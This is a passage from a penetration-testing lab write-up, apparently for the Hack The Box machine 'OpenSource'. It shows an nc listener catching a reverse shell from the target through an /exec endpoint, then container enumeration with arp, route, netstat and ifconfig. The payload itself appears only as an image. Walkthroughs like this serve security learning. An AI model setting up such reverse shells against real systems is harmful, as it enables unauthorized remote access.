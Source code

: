Now add it as a parameter on the /exec endpoint like we did before and paste in the browser:

![opensource-reverse-shell](/assets/images/2022-06-07-22-06-37.png)

## Shell To Container

Switch to a waiting nc listener to see we have a shell connected:

```sh
┌──(root㉿kali)-[~/htb/opensource]
└─# nc -nlvp 1337         
listening on [any] 1337 ...
connect to [10.10.14.163] from (UNKNOWN) [10.10.11.164] 41543
/app #
```

A quick look at root shows us we're in a docker container:

```sh
/app # ls -lsa /
total 72
     4 drwxr-xr-x    1 root     root          4096 Jun  7 19:02 .
     4 drwxr-xr-x    1 root     root          4096 Jun  7 19:02 ..
     0 -rwxr-xr-x    1 root     root             0 Jun  7 19:02 .dockerenv
     8 drwxr-xr-x    1 root     root          4096 May  4 16:35 app
     4 drwxr-xr-x    1 root     root          4096 Mar 17 05:52 bin
     0 drwxr-xr-x    5 root     root           340 Jun  7 19:02 dev
 ```

 We can confirm with a little enumeration:

 ```sh
 /app # arp
? (172.17.0.1) at 02:42:71:1c:b4:47 [ether]  on eth0

/app # route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         172.17.0.1      0.0.0.0         UG    0      0        0 eth0
172.17.0.0      *               255.255.0.0     U     0      0        0 eth0

/app # netstat -anp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      7/python
tcp        0     54 172.17.0.5:41543        10.10.14.163:1337       ESTABLISHED 543/nc
tcp        0      0 172.17.0.5:80           10.10.14.163:58108      ESTABLISHED 527/python
tcp        0      0 172.17.0.5:80           172.17.0.1:53770        TIME_WAIT   -

/app # ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:05  
          inet addr:172.17.0.5  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:845 errors:0 dropped:0 overruns:0 frame:0
          TX packets:803 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:74639 (72.8 KiB)  TX bytes:412353 (402.6 KiB)
```
